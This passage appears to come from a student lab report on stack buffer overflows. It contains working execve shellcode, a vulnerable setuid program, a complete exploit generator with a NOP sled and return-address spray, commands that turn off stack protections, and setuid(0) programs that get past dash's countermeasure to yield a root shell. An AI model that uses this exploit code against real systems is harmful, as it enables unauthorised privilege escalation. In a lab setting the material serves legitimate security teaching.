    "\x31\xc0"   /* xorl   %eax, %eax  */
    "\x50"       /* pushl  %eax        */
    "\x68""//sh" /* pushl  $0x68732f2f */
    "\x68""/bin" /* pushl  $0x6e69622f */
    "\x89\xe3"   /* movl   %esp, %ebx  */
    "\x50"       /* pushl  %eax        */
    "\x53"       /* pushl  %ebx        */
    "\x89\xe1"   /* movl   %esp,%ecx   */
    "\x99"       /* cdq                 */
    "\xb0\x0b"   /* movb   $0x0b,%al   */
    "\xcd\x80"   /* int    $0x80       */
    ;

int main(int argc, char **argv)
{
  char buf[sizeof(code)];
  strcpy(buf, code);
  ((void (*)())buf)();
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
gcc -z execstack -o call_shellcode call_shellcode.c
./call_shellcode
id
exit
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{bf-run-shellcode.png}
\end{figure}



\newpage

\subsubsection{Exploiting Vulnerabilities}
We are going to look at two pieces of code for this section, namely stack.c and
exploit.c. The program stack.c is going to be the one with the vulnerability.
As is highlighted in the comment, strcpy does not do any balance checking so
it is going to introduce the buffer overflow problem. Outside of this function bof
we have another buffer that does not cause the buffer overflow followed by the
badfile which is where we are going to put our (malicious) shellcode to get to
the root. After reading the file into the string buffer, we call the bof function
before putting a print statement in the end. However, we should see that when
we successfully exploit the vulnerability we won't see the statement printed out
as we will have changed the return address.

\vspace{0.2in}

\begin{lstlisting}
/* Vulnerable program: stack.c */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
    char buffer[24];
    /* The following statement has a buffer overflow problem */
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;
    /* Change the size of the dummy array to randomize the parameters.
    Need to use the array at least once */
    char dummy[24]; memset(dummy, 0, 24);
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 517, badfile);
    bof(str);
    printf("Returned Properly\n");
    return 1;
}
\end{lstlisting}



\newpage

\begin{center}
    \textbf{Compile stack.c and change program owner and permission}
\end{center}

\begin{framed}
    \begin{verbatim}
gcc -DBUF_SIZE=N -o stack -z execstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{bf-stack.png}
\end{figure}



\newpage

\begin{center}
    \textbf{Implement exploit.c and launch the attack}
\end{center}

\noindent
The below program exploit.c is used to exploit the vulnerabilities in the
aforementioned stack.c. In this case we exploit the vulnerability in strcpy because
strcpy does not check the size of the incoming string against the size of the buffer,
leading to the string rewriting the locations in memory that it shouldn't have access
to. Using that, we can inject code into the buffer and overwrite the return address
that is stored in the stack to get it to point back to the buffer where we
(maliciously) embedded the code that we have it to execute. At the end of this,
we should have access to the root.
\\[0.2in]
Going over the key components of exploit.c, we have the shellcode at the top and a
function called \textbf{getStackPointer()} that is going to return the stack pointer.
The stack pointer will be used later to guess the return address that we will feed to
the processor.

\vspace{0.2in}

\begin{lstlisting}
/* exploit.c  */
/* A program that creates a file containing code for launching shell */
#include <stdio.h>
#include <string.h>
char shellcode[] =
    "\x31\xc0"   /* xorl    %eax,%eax   */
    "\x50"       /* pushl   %eax        */
    "\x68""//sh" /* pushl   $0x68732f2f */
    "\x68""/bin" /* pushl   $0x6e69622f */
    "\x89\xe3"   /* movl    %esp, %ebx  */
    "\x50"       /* pushl   %eax        */
    "\x53"       /* pushl   %ebx        */
    "\x89\xe1"   /* movl    %esp, %ecx  */
    "\x99"       /* cdql                */
    "\xb0\x0b"   /* movb    $0x0b, %al  */
    "\xcd\x80"   /* int     $0x80       */
    ;

/* Return the address of the top of the stack */
unsigned long getStackPointer(void)
{
    __asm__("movl %esp,%eax");
}

int main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialise buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    char *bufferPointer;
    long *addressPointer;
    long returnAddress;
    int offset = 500;

    int position = sizeof(buffer) - (sizeof(shellcode) + 1);

    bufferPointer = buffer;
    addressPointer = (long *)(bufferPointer);
    returnAddress = (long) getStackPointer() + offset;

    /* Fill out the first 20 positions of the buffer with the return address */
    for (int i = 0; i < 20; i++)
        *(addressPointer++) = returnAddress;

    /* Insert shellcode towards the end of the buffer */
    for (int i = 0; i < sizeof(shellcode); i++)
        buffer[position + i] = shellcode[i];

    /* Terminate our shellcode at the end of the buffer with null */
    buffer[sizeof(buffer) - 1] = '\0';

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}    
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
gcc -o exploit exploit.c
./exploit
./stack
id
exit
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{bf-exploit.png}
\end{figure}



\newpage

\begin{center}
    \textbf{Change the real user ID to root}
\end{center}

\noindent
It can be observed that although we have acquired the root shell and the effective
user ID is root, the real user ID is still not root. The following program changes
the real user ID to root and we should have a real root process.

\vspace{0.2in}

\begin{lstlisting}
/* setRootID.c */
void main()
{
    setuid(0);
    system("/bin/sh");
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
gcc -o setRootID setRootID.c
./stack
id
./setRootID
id
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{bf-root-id.png}
\end{figure}



\newpage

\subsubsection{Defeating \texttt{dash}’s Countermeasure}

\vspace{0.5in}

\begin{center}
    \textbf{Configuring /bin/sh to /bin/dash}
\end{center}

\begin{framed}
    \begin{verbatim}
sudo ln -sf /bin/dash /bin/sh
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{bf-bin-dash.png}
\end{figure}



\newpage

\begin{center}
    \textbf{Running without uncommenting setuid(0);}
\end{center}

\noindent
We observe that the user ID is not 0 after running the program
without uncommenting setuid(0);

\begin{lstlisting}
/* dashCommented.c */
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
    char *argv[2];
    argv[0] = "/bin/sh";
    argv[1] = NULL;
    // setuid(0);
    execve("/bin/sh", argv, NULL);
    return 0;
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
gcc -o dashCommented dashCommented.c
sudo chown root dashCommented
sudo chmod 4755 dashCommented
./dashCommented
id
exit
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{bf-dash-commented.png}
\end{figure}



\newpage

\begin{center}
    \textbf{Running without commenting setuid(0);}
\end{center}

\noindent
We observe that the user ID is 0 after running the program
without commenting setuid(0);

\begin{lstlisting}
/* dashUncommented.c */
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main()
{
    char *argv[2];
    argv[0] = "/bin/sh";
    argv[1] = NULL;
    setuid(0);
    execve("/bin/sh", argv, NULL);
    return 0;
}
\end{lstlisting}

\begin{framed}
    \begin{verbatim}
gcc -o dashUncommented dashUncommented.c
sudo chown root dashUncommented
sudo chmod 4755 dashUncommented
./dashUncommented
id
exit
    \end{verbatim}
\end{framed}

\begin{figure}[H]
    \centering
